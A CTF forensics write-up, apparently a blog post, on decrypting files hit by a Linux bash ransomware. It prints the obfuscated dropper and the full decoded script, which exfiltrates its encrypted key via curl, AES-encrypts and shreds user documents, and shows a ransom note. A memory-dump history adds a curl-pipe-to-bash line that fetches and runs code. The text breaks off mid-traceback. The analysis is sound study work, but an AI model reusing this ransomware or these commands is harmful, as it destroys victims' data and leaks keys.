



# Cyber Apocalypse 2023

## Artifacts of Dangerous Sightings

> The aliens are gathering their best malware developers to stop Pandora from using the relic to her advantage. They relieved their ancient ransomware techniques hidden for years in ancient tombs of their ancestors. The developed ransomware has now infected Linux servers known to be used by Pandora. The ransom is the relic. If Pandora returns the relic, then her files will be decrypted. Can you help Pandora decrypt her files and save the relic?
>
>  README Author: [Starry-Lord](https://starrylord.ch/)
>

This competition was long expected, TheWhiteCircle's CTF team and I had already participated in 2 other HTB CTF editions, and really appreciated the challenge, infra, features quality, which allowed us to made some really good breakthroughs together. Find the other write-ups [Here](https://twc1rcle.com/ctf/team/ctf_writeups/cyber_apocalypse_2023/). One of these challenges actually stood out to me the most, so much so that I had to post this write-up, at least for future reference.

There were a bunch of files coming with this challenge, zipped into a zip archive, sending us through many directions:
```
┌──(starlord㉿HAL-9090)-[~/…/CTF/CyberApocalypse2023/forensics]
└─$ ls
flag.txt.a59ap  
forensics_bashic_ransomware.zip  
forensics.mem  
linux-image-5.10.0-21.zip  
traffic.pcap
```
A. Traffic.pcap

We started looking into the pcap file with Wireshark, which was (thankfully) only 12 packets long. Following the unique tcp flow gave us a bit of insight:


Since it’s an HTTP request, we can find it if we go to File > Export Objects> HTTP…



After saving the content, we realise quickly that it was base64 encoded.

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ cat Kxr43fMD9t.manifest | base64 -d
```

Decoded content of Kxr43fMD9t.manifest:
```
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";s=" '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
WZIJ1RXBlQUZldNpWU0YkblNjTIdVNJd1YRJlMT9kSy4kNWRlUysmeM9EZV9kcodlUIRmRWxkVXJ2SKNDZCR2aTFjWtN2SjR0VahmaiVzZxwUUoh0T3BnbaVTUxMFVoBDT
2RTRi5EbzQmc4c0V0BHbkdFaYNleOhkUuxWRaVjUtZlUSZUZzJkVUZFZw0UNCp2Y4R2VhRnWXlVdS12QHh2VOFTRGZlS0VVTytWVaRHdyMFMKh1VMJFWU5EaE9EdaFTUhl
TRUNnTF1Eao1WYws2MidFZHplc0VlTzc2Vhh3cTVWeR52VxYlRV9mS6Z1aGdkYMB3dLVFbwM2dNJjYDRGVjFXNws0VKBDTxIkVhhkRFNVNzNlTzxmajdlWqNla0NlW1c2R
iBnWyEWS5MUVwQ2ahhFbXVVawhVZL5ESlNnWXpFb4BDTVRmeLt0Zwolaxc1URJkai9GZEJ2dFVVYzEERXRjTX50bCxWUyUFMkZEdpN1dv52V0p0RhtEZGJGMZ5mWopFST9
UOtVFRSpXW2Q3RjxmU6VFc4tWW1UlaOBDZsNUY0NEZ1cmRTdHZqRlcJVVVZxWMUdnSzQ1d3JjYvhGMWZVOVNmWkNTYMhWVUxUMtVFcoREZF5kMLpFdHJVRKRkW2tWbOFlU
UFlcFxmU2NWMiZnRz0UdwFlTLRmbU9WOTVVNSRUZzAnMTpkTVJmTONjYI5kbilnWwQldopGVxJleUhkQ6JFcoZFV1c3VN5mVFdld0AzYLBnVhl3aFFWNwc1UGR3RiNTRtJ
GUWZUVL1UVXBDbXVmVwZVWKZlekZkWrNGW1U0V4pEWOJTUVVGcSdUYLh2aahUO5R2VoV1UthWbadnUwIVcWd1YRVzaUlkVU9kTShVUzYUVPJEcGJmWWFzUxM2aD9kTH1kd
FFTYu5UVRNDZzIFRONDT4V0RVRnRrJlW4d1VWRXVOhUNwk1d4M1UDZEMRVjTUNlVw12UPFzahxGZsJlRWVVYHR2VR5mTrFlbKtWU5NWVVBHcnFlQGZVUTZUVVVlVIF2MGp
nU1oURShlQW9Ub0NUT4plaOVnTYVGeNpWYMRmMOVFcYJWMNZlWXBnba5mUINVNBpXW6pFWjpnTXpVTO5WZxZkbR1mRXl1SnNjWOBHSP1mUu1EeFRkY4plVhJzZVdlck5WT
ExGSTBFdtNVNKR0VDxWRjdEcFZFTk1WY5hGWl5mQ6JlWaFzY0oVbl1kQY5UNGRUTEVzVPhGcwImexs2Q1cmMMNlTrN2MGVlYxMmaS9mV6JWWxcUYwpkRlRDdFFGVwtWYCh
GMkRnUXNGSshlUzY0RjBHewkFMoVUVFhHMZREZyskdRJjYohnMVpHMFVlN1s2Y29WUR5kWxUFVkhEZ6NGSTpnWtJ2T0dVUHhXRhREcsRlNKpnYJp1MLpnWrNVNwdlYLZUb
ZBHayY1TOBTWMRXaNBnQuFWYoxWTQ5URShGaqR1cWZVZo5ERltEMHVFdkhVTWVDMVBzZYJlejpHTCJFbXdXWzM2RsNzYqRmRkZ3axIlQONjWzoUVVBlVWJWeztmVE5ERlJ
UOH1kbsR0T2RDMW9GbUF2T1AzSNxmekNkQqNEbad1UoRmVOZkUuJmcvxmYulTVU1mWIJlSaZ0UuZURadnRXR2TatWTCxWViFHZwEFMFxWYXp0aSRkSVFmMsVFZ6lDMTRDZ
WlVerZ1VshWMiVnRtR2dwFkTSZlaaVDarZVNJt2YwsmbOpGbVpVUsJTVOZFbV9mQIV1QaZVThplbjZlSEJldZh1VIBnbTpGZF9Uas5WVYRWVlNnRqNFewNjTVlzaXBDcGJ
FdSVkTLFkRkVUNtZVaodUVzgGVWJjWVJ1cwhVUGBXbjxkSwMmW0tmURlzaahHNXJleOVkYEhWblVzZwQGSapWZxh3VVNjSGVVMORlTwRWMWpnRYNGMwNjYUpUbDRVMtRmd
wclTMZUVUZEZzsUWKh1TaZVRNplRV5kcwAjUxQXVkVHZxQWTopXV1kkaaRjUIJ2QkRlWIJFSV5kUx4kcn1mV6JleNpmT6VFSaJTU5pESkJ3bBJGeOZkYV5ERkVjStFmSxA
TWqJ1MVlFaId1SC5mT6hzURhkTsVGdKpWVyUVMUFDMXNVdCxWVxolVNNUMrRmW4VkWs50ROFlWIVWeZhlYzMmVlFFZ610SZ5mTEhHMWFGbX5UV5c0TxgHMaFTSWpVerdkT
sB3ajdEbI1kMOp2U3RGMNFzbYpFdSVFZEhGbZ1kUFRFWWBjUuhHMW5kUrFWesZlWLh3aNZUOH1ERS52QJhWVahlUWlVMadUZ0RWRX9kUwU1V1U1TXpVRhtEcupFdCFjUVV
zVTtkRUVWekZUZDRWMZBHZxQFUCNTUGpkRiJHZFFGM0NVZtplRkNVODdlbWdVUVB3dTFzdHJWWsdVT0oURiNlVGZlNatGVrpUVUBzYsFmMjhkTTxGMhZjQE1UY0dlYzh3R
hRTWUZlM4V0UYVzaZVFcrlFWkpnUIhnMiJHbtlVNjZUZoZUbUt0aGJ1MOhkV5dWMSBnRUdlcVh0VZlzUkNHctRWN4IDVvp0VTllWupVNnpHTXJlbTlkTrVFbGJjYZp0aUR
TTsNFN0JzSOxmRNlXVsJGeOZlUyUkbjBDasNUMsdkWyFkaTdnVtp1dB5WTYp1RahnUtlFbOVkU1xWbTdVOVZlSORlYrJVRlpkU65EWOhlTzIEWaZXMHJmcnd0TCh2aWpXQ
uFVVxs2YRZVRNRkVVJlRwdGVwQmRUVnWEFGeVRlWrZEVlhmVyklRkNDZ1kkbTNjVyoldoREZRxGMhRTVwolSopXU2hGWidlRzEWMOVkV0okMhplWVVlRk5WWoZEMWlkUys
ESstWYLNGRlVEasRmWCNDZhRmaOFTS6pld0IzY2YlRlhXU6xERCpWWxolVhNlQzEWaCpHZTlzQSNlTwMlQGBjWZxWVVJkVXNlUGVkUKRWbSZEbwQGRsBTYu50aDdFbxolQ
oBjWS5URUZFZYFVasBDZydGbjVzaxElVk1mVwpkRjJnSH10MKFDTxZVVRpEbrpVcGxGV0Jkek5kWqd1VGZVVKRWMaVkRwMlRkhlUGJleZJEcnNlMRtWWvVzaNlmTY5UNG1
WYHRWVZJkRq1UawhlTYxmVlRjUVNVMZxWTUJFWPlXTXR2RxclVrZEbZJkRVJlUWVVU0AzVOFHZU5ESOdlYzU1aZJFbYV1SzVUTYlzahdnSVNmasxWV2RXbRhHOTNmQ1cVW
6t2MMVlV6tUYkh0Vrp1VXFFdHRmevZVV4N3VNJTWHVmR5U1YyRmaUJEZERFeNFDVDpkaWBDaqN2Qat2Q4tmVkZXNrFlRoNDVMpkMUtmTuNlQKVVT0MmeTtmRsJlWS1mYNp
EWXhXRsFmVxU1VaxWVT5WOD5ESCpnYGpVVSBVNF5ETsV0TUJFVTRzZE9ENVd0Tx82dNBzYU5kcJ5GZ5d3VihXVz0EdCRFZvJFSjZEaXRGcahkV2gmRi1mRwE2dZ1WUwJEW
OpmSrNmM4UkT2p1VZ9EZIdVWONDZzIEWS9mRWNGMnRlVth3aNt0bI1EW0l3UrhWRkZXSuRWU41mVHljMMhmWGR1b01WU6h2ROVFZHNVbwJTVL5UbOZVODNmeWVUVHpFWZV
jTVFlUsNjWPxGVjBDazYVMNVVZUx2MVlGbsNEeS1WVWhHMWlFeVJmQOhVYtx2VNdXUwQmd0ADTTZ0MjNHZV1EaGJjWzYFRONTT6RmWSh1VUZURa9kSqVlcFhVUpJEWaREb
IVmesBTTuZkeZdFbFJGawFlTJh3aXVDbXNlVOxGVwUVVjpXSW10cONDZSx2aUVkT6ZldBRUYyg2VTJTREJFNvZ0YHZlVPtGdH1Uc1IDTVp1aSRDbYdVY0tmWZRGWZVkRw4
EMjR1YLl1MOllTFNWNwdkWNlTeNlnTU50VwVUT0kjMLhkTWd1MnpWT6RWMWBlWrZVMFNTU2lEbiJDdH9Uc0lWYEhWRhRTRG5EdGVkTuxmVlBDa6tkMOR1UpZ1aDNDcyE1R
kBjY5NHMN1EetJVWaBTVsZURPdXV6p1MsNjUIZEbR5kWwMWRshVY1JkbW5kRuFWYOpmV2YVVSpEbEJFWSVVUFpEMjZXRUlVUktWUPRWVVRHcnNEdwMFT0BTeTRUOFR1QCN
1VGRXRJREbFR1QWZUVnFUMSFlQpRlSkVlUDFzUMRHMTxkI9oGZPl3MLdzb0UmV5pGb0lgC7BSKo0UW6RnYzR1Q2YkTYF0M3gHSNZUdKg2chJ2LulmYvEyI
' | r";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""
x=$(eval "$Hc2$w$c$rQW$d$s$w$b$Hc2$v$xZp$f$w$V9z$rQW$L$U$xZp")
eval "$N0q$x$Hc2$rQW"
```
{Authors note: I regret nothing}

Some more obfuscation to go through, so we simply replaced the values in the eval section to read what was being evaluated. Decoded content of the decoded content (We can see the ransomnote!):

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ cat ransomware.sh                  
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";HxJ="s";Hc2="";f="as";kcE="pas";cEf="ae";d="o";V9z="6";P8c="if";U=" -d";Jc="ef";N0q="";v="b";w="e";b="v |";Tx="Eds";xZp=""

x=$(eval "echo'#!/bin/bash
uFMHx73AXNF6CTsbtzYM() {
        tljyVe4o7K3yOdj="LS0tLS1CRUdJTiBQR1AgUFVCTElDIEtFWSBCTE9DSy0tLS0tCgptUUdOQkdQYTEvc0JEQURXRDlJRUV6VjNaanFNVnBuaXlEc0ZNQlFHR3l3ZzUwO
        EFlU0ZYRmxMM0syb0dGQ2p3CkViSTN2Kzh0eVlnNEFtNFE4aEhDaitqOGt2blIvQ3E1VkZPV1dzMjg3WVNHK294MEpWNTNyMy9MZGp5cENYN3YKcTc0N0FEYXdYZktaWXl
        4RkZUL25qMGtkOVVGcFo4RDE2SWh2aDAvVzNETklRd3NsMVIzcUU0TlNVSWl5WkxINQphbElWYzFnM0lzeHlDZXBiQXErUjJOZEFTWXRZdzM3NDV3Z2FhMUdsc3FSL04vd
        0QwMWlmaXNBbUxYV0xVUmRxClliU3lTeUM1V3h0cTlOZ3lRQUN5YXZGUEVzcC9VNmNKU2pmSGdUNGhzQmtoTFZhL29GVmxQdnIvdEhkSytXMHoKMkxmVTg0cVFoRXB3d3N
        YWHdOYWZvNE82ckJjNXBpQmYwa0FmbFh6VHZpdWhFcHRodTBtM3UxbWwydnIrNTc0Mwo1OGU4ODg4STRTOElLNE5PRUZFbzBHNC9nSUlZWU1ValExWXJMbmRZRlFkSzc4M
        UJBSnNkT2JLT3hFQk5vdVkxCkZCcjh0VjJCT1MxTDdBTjdrcU9FeGY2MWsxUVozdGtQWWZkWHdaKzVUL3kzYW5BcS8xQmtvUlljcUJwak9XMEsKUXlRYkU3bWNHNTdqNW0
        4QUVRRUFBYlFkVW1GdWMyOXRTMlY1SUR4eVlXNXpiMjFBYUdGamF5NXNiMk5oYkQ2SgpBYzRFRXdFS0FEZ1dJUVFWWjZNdzBtTlFqZklJQUVqL1J3MGJrcFJpVmdVQ1k5c
        lgrd0liQXdVTENRZ0hBZ1lWCkNna0lDd0lFRmdJREFRSWVBUUlYZ0FBS0NSRC9SdzBia3BSaVZ1YjBDLzQxeFV6c24vZzI1Njdad3BZdlhEeDcKaklHK2RIV0FhYndFUUZ
        Za2J4VEN1a3FWbXhvQzhJZ0U4a0lQdDhvZ2V3SnI5d3dFY2VheTFkZTUxaDZuTFd0TgpFRUVDMEVQck1UQnAzVkhBOGgrbG1vZXB3NXNXNzRJeERkbTNJVU9WSmluRENlY
        mRxZGZXMnAwZmVwSjArZGl1Clh0cnE2RVNxblUyMFlNK2t4SlM4TkJYb2FlUkNISnRWLzg5ZnZYSWJoT285dmpsdS9YWHUrWTFpR1gyVHN3RFkKTmFheFc5Ymlrb2xHRzd
        XYkpUYk5XSEx2VTY4aGxsbWtaMDB6a0lSNHc2alc0TUJkTkZ6VFVSbEJ4MWlYbGw1SwpUQWVnWC9SdFZmeSt0aEdrbFJFQ3BPT1dpY1dCeFdyeTFKSW5UR1BtZnpKaEZWO
        U5WU0ROWEdteGZ1YVRXZUhICnRDMG9FMkxKZVlyakRNV0xnR0VXTERMYlhDdURtZXo1M0dwSjN2MHlGckplNGkyZVI1Z0x1OG9UNWlaV0xDNnYKMzdQeVc3bXYyeHZQNGN
        lZExZdk1CMVZ1UlBuSW01T1U2UjJtelNHQS8zNnBKWHhYU3RjY01JamJ5dDNUbFNxbAordHJyQ2ZHUzNjMzRzVmgrN1RNUHRHZTdCbHR4ZjI5UzhMd1dudUt1R00rNUFZM
        EVZOXJYK3dFTUFLNW0vdm1TCmJTb3p0cXFzV1dpNTN1UFJ3UWxqejZHd0g5emhDbENzRW4xZk9QRktZc0JLcmpFQXpsRUZ2VTh3UGhiVm5EdFAKNERtRFp0Wk9UN3pxSjF
        seUdXUnliOEdjSnpHWXYvRDJVcnZaMVZCUHBoUlVNU2lQZUljNnk0ckI5Vkh5ZjVRNApwdmFub1hlWVkyYVd4S09zdUl2aUJDRkJWalE0Q0dqbUlBMkZOdWFwZEFnSFZJR
        HZmTU9nblorbnRFNVdhSWZlCjBCdzlMK05OaTloV04vODlnMG9BeDNDVksybVVPUUJ3Z3NBR1kvdFdjc3lGc3YwWlRBLzczRXg0U05VMXdtUG0KeDNheVVsTjhhRENPMlh
        aanBpMitLY0NOV2hpYmFKbWp5SkZzK3ZIbzJ6TlpDaExGQWtObmZzSHczdHdTU1ZNQQovck56UE0zU2xhb2QvK2dDY0xEUEh0Y0xpcGF3RXlHcWRtd0hBakpTaEt4eFJpa
        G1YbzVoRjc1bUF3ckNSL2g5Ck1zb0phOW5DMDF5NXBMemZ4c1ZZRzBneXhyamdLVEpGcElCWDJ5SmtPSHlDMndrWUg2aVZxbDExMnRmOHpNZ3gKYWFmQnFqenNMZWNzcXZ
        zYzA5SHRnZnpWZVM1bXpUN2dLajMxeXNuNjZxMCtmOVBXREJ5RzF3aHVUUUFSQVFBQgppUUcyQkJnQkNnQWdGaUVFRldlak1OSmpVSTN5Q0FCSS8wY05HNUtVWWxZRkFtU
        GExL3NDR3d3QUNna1EvMGNOCkc1S1VZbFpBOUF3QXRNOTVITk5QcWVqR0RwZmhmSUhWdy9HZkhKaGRpeUQ2NXJxWE5XckZFdzVJYVpVeWl0WUMKUFVPbmE3bGtFSW05aEk
        yaVpKc04vWEVnMWw5TVhpRzBHTzRqTjhvT0ZybnNHb3NNbUNJS2p3eDR5US9oTndKNQpuM3Fvb1cvRlErQTRQNmkvZDJERGtZK2NEdDhpUm1LTUhLa3dZcU9VV0hob2wwT
        3JwT1lYUUIrTjdwSFg5dCtaCld0NjU5YkxpUzRlcGt6YzRDUm9OSHZhZnY0bFdKaGJtWnowSitFd0U2QlBoNWN4WDA3aUEwbDdobjBQSW1jZ0gKKzdUL0xlZWZseHNKeXp
        iUWlXakd0UC9Ia2ZpbGg5ZStjSjZWcjlsNSs5SEFHaVB1L0JWK05qcTdCb2Mwc0lUKwpLbGFkVzJoUFV1WnQyeSsxaWg3NUtrZGdWb3k0amhhMENsTE9aQ1ZtODhNTXRLW
        XJ0S2ttZUkrMUtJVFE1NWhGCmRuYWZtaWdxcjB5M0dVTVBseFRRVmR5ZElnRHNzSXhWdlptWG8rd3lNbE4vL0hTS1Q5ZnpwOHhQL1g5bjhZWDcKcmZ1SkdBd3JKbWVLVFd
        HRWhrOUdOLzk2RTV6N2JOS2RQcWI5WHN3enF4QjMvVTBPWGRHemNpK1h6VURVVVI5cwo3S2dCZ3VXY0xXYWUKPXFqVzcKLS0tLS1FTkQgUEdQIFBVQkxJQyBLRVkgQkxPQ
        0stLS0tLQ=="
        echo $tljyVe4o7K3yOdj | base64 --decode | gpg --import
        echo -e "5\ny\n" | gpg --command-fd 0 --edit-key "RansomKey" trust
}

MMYPE1MNIGuGPBmyCUo6() {
        DhQ52B6UugM1WcX=`strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 16 | tr -d '\n'`
        echo $DhQ52B6UugM1WcX > RxgXlDqP0h3baha
        gpg --batch --yes -r "RansomKey" -o qgffrqdGlfhrdoE -e RxgXlDqP0h3baha 
        shred -u RxgXlDqP0h3baha
        curl --request POST --data-binary "@qgffrqdGlfhrdoE" https://files.pypi-install.com/packages/recv.php

        for i in *.txt *.doc *.docx *.pdf *.kdbx *.gz *.rar;
        do
                if [[ ${i} != *"*."* ]];then
                        echo $DhQ52B6UugM1WcX | gpg --batch --yes -o "$i".a59ap --passphrase-fd 0 --symmetric --cipher-algo AES256 "$i" 2>/dev/null
                        shred -u "$i" 2>/dev/null
                fi
        done

        unset DhQ52B6UugM1WcX
}

v0nPa1GinWR3Dr27cnmT() {
    cat <<- EOF
                --------------------------------------------------------------------------
                YOUR FILES ARE ENCRYPTED BY AN EXTRATERRESTRIAL RANSOMWARE
                * What happened?
                        Most of your files are no longer accessible because they have been encrypted. Do not waste your time trying to find a way to decrypt them; it is impossible without our private key.
                * How to recover my files?
                        Recovering your files is 100% guaranteed if you follow our instructions. One file per infection can be decrypted as proof of work. To decrypt the rest, you must return the relic back to its previous rightful owners.
                * Is there a deadline?
                        Of course, there is. You have ten days left. Do not miss this deadline.
                --------------------------------------------------------------------------
        EOF
}

ExoPFDWb3uT189e() {
        uFMHx73AXNF6CTsbtzYM
        MMYPE1MNIGuGPBmyCUo6
        v0nPa1GinWR3Dr27cnmT
}

if [[ "$(whoami)" == "developer7669633432" ]]; then
        if [ -x "$(command -v gpg)" ]; then
                ExoPFDWb3uT189e
                exit 1
        fi
fi
")
eval "$x"
```

After close examination, we found out it actually uses gpg to encrypt the data. 3 functions come into play:

the first function is setting a public PGP key block called RansomKey and set its trust to maximum, in order to use it to encrypt the data.
The next one is responsible for AES256 encrypting .txt .doc .docx .pdf .kdbx .gz \*.rar , by generating a 16 char long passphrase for pgp encryption from this command:

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 16 | tr -d '\n'
Fsu1b8fs7lsoNJhZ
```
The ransom note and instructions displayed after everything is broken. It is indeed correct that we cannot, in the time allowed for this ctf, crack aes encryption without the passphrase, and the passphrase appears to have been generated randomly from /dev/urandom.
However we have more files.

B. Memory dump and linux image zip

First things first, in order to gather information from a memory dump, we need the volatility tool. Many ressources are available on how to install volatility2 & 3, like hacktricks amongst others. It so happens that it can be more painful for some than for others to install both concurrently, but eventually, both of us got both of them working.

The linux image zip file was actually a symbol table, which hints heavily towards using volatility3 instead of volatility2. Many sources online say volatility2 is the preferred one, can do more things, etc… So we had a little overcoming to do before fully committing. Regardless, it is possible to create profiles for volatility3 by sending those json symbol tables to the /symbols directory from the volatility3 install.

From there, it was finally possible to retrieve some data. The most interesting and useful volatility3 plugin output in our case was the following:
```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ vol -f forensics.mem linux.bash.Bash      
Volatility 3 Framework 2.4.2
Progress:  100.00               Stacking attempts finished                 
PID     Process CommandTime     Command

440     bash    2023-03-03 20:51:15.000000      id
440     bash    2023-03-03 20:51:16.000000      ps aux
440     bash    2023-03-03 20:51:19.000000      ls
440     bash    2023-03-03 20:51:20.000000      uname -a
440     bash    2023-03-03 20:51:27.000000      curl http://files.pypi-install.com/packages/Kxr43fMD9t.manifest|base64 -d|bash
```

We have tried everything, including retrieving bytes from volshell, until we found out that kudelski actually made a plugin to retrieve gpg passphrases from memory dumps with volatility3!

Excitement, excitement! A few short minutes after finding the github repo for the plugin, Thewhiteh4t managed to get the plugin working and retrieved the 16 chars generated from /dev/urandom from the extracted memory. Then it was just a simple command to decrypt our flag.

That’s when I had the most struggle. For some reason, the plugins were not both working right away for me. I have successfully managed to install fully functioning volatility 2 and 3 on my new kali vm during the ctf, and I was frantically looking for the correct symbols, framework, and plugins dir, until I just went for this:

```
┌──(starlord㉿HAL-9090)-[~/…/volatility3/volatility3/plugins/linux]
└─$ vol -h -vv
...SNIP...
  File "/home/starlord/.local/lib/python3.11/site-packages/volatility3/framework/plugins/linux/gpg_full.py", line 12, in <module>
    from cryptography.hazmat.primitives.keywrap import aes_key_unwrap, InvalidUnwrap
